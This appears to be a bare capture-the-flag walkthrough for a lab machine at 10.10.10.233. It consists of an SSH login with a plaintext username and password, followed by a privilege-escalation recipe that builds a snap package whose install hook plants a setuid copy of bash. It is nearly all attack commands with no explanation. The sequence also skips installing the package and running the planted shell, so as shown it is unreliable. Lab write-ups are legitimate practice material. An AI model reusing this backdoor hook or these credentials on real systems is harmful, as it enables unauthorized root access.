 #Get User:
ssh brucetherealadmin@10.10.10.233
password:booboo
cat user.txt

#Get Root:
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\ncp /bin/bash /home/brucetherealadmin/.w/rootbash && chmod +s /home/brucetherealadmin/.w/rootbash' > meta/hooks/install
chmod +x meta/hooks/install
fpm -n waza -s dir -t snap -a all meta
cat /root/root.txt
